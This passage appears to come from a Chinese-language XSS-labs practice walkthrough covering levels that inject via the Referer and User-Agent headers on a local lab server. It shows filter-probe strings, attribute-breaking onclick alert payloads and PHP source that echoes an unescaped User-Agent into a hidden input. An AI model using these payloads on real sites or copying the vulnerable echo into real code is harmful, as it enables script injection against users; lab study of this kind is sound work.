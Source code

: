 ### 测试过滤

```js
<script " 'Oonn>
```

![image-20240819221914358](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819221914358.png)

有4个隐藏标签

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_ref"  value="http://192.168.70.10:8084/level10.php?t_sort=click%22type=%22button%22%20onclick=%22alert(/xss/)" type="hidden">
```

#### 使用上一关payload

使用上一关的payload测试一下第四个参数

```js
?t_ref=click"type="button" onclick="alert(/xss/)
```

依旧没有结果

![image-20240819222138688](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819222138688.png)

猜测`t_ref`是`referer`地址来源

### Referer

```js
click"type="button" onclick="alert(/xss/)
```

![image-20240819222256542](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819222256542.png)

## level12 User-Agent

### 访问

http://192.168.70.10:8084/level12.php?keyword=good%20job!

![image-20240819222633415](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819222633415.png)

### 源代码

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```